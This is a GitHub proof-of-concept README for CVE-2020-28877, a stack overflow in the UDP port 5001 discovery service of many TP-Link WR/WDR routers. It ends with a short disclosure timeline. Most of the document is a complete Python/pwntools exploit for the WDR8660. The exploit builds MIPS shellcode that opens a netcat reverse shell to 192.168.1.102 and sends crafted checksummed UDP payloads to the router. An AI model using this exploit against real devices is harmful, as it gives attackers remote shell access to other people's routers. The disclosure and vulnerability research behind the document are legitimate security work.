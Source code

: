 # TP-Link-poc

TP-Link router have a stack overflow in devDiscoverHandle server.

Any user can get remote code execution through LAN, this vulnerability currently affects latest WR、WDR series, including WDR7400,WDR7500,WDR7660,WDR7800, WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability description

This vulnerability happen when  devDiscoverHandle  receive data by using `recvfrom` from `udp port 5001`.Then enter the `protocol_handler`->`parse_advertisement_frame`->`copy_msg_element`.In the function of `copy_msg_element` we can control `iParm1` and `iParm3` that It lead to a stack buffer overflow to execute arbitrary code.

![](./1.png)

## Poc

Refer to this video: [poc_video.mkv](./poc_video.mkv)

**poc&exp**

It's for WDR8660
```
import sys
import struct
import requests
from pwn import *
from time import sleep

context.arch='mips'
context.endian='little'

udp_data_addr = 0x0419680

def fix_checksum(data):
    checksum = 0
    for off in range(0, len(data), 2):
        checksum += u16(data[off:off+2])
    checksum &= 0xffffffff
    while True:
        if (checksum >> 0x10) == 0:
            break
        checksum = (checksum & 0xffff) + (checksum >> 0x10)
    checksum &= 0xffff
    return p16(0xffff - checksum)

context.arch='mips'
context.endian='little'

magic = b'\x01\x02\x0e\x00\xe1\x2b\x83\xc7'
shellcode = asm(shellcraft.nop()*0x8) + asm(shellcraft.execve(path = "/bin/sh", argv=['sh', '-c', 'mknod /tmp/a p; nc 192.168.1.102 8080 0</tmp/a | /bin/sh 1>/tmp/a 2>&1;']))

gadget1 = p32(udp_data_addr + 0x300)
pad2 = b'shellcode'.ljust(600-0x10, b'\x00') + gadget1

context.endian='big'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2

checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload2 = magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp

pad2 = b'helo'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2
checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload1 = (magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp).ljust(0x300, b'\x00') + shellcode

assert(len(payload1) < 0x5c0)
assert(len(payload2) < 0x300)

print("[*] Sending payload1")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload1,('192.168.1.1',5001))
udp.close()

sys.stdout.write('[*] Waiting for 20 seconds')
i = 1
while i <= 20:
    sleep(1)
    sys.stdout.write('.')
    sys.stdout.flush()
    i += 1

print('')
print("[*] Sending payload2")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload2,('192.168.1.1',5001))
udp.close()
sleep(1)
print("[+] Success")

```

## Timeline
2020.11.7 show in TFC conntest

2020.11.15 report to CVE and TP-Link

2020.11.21 assign CVE-2020-28877
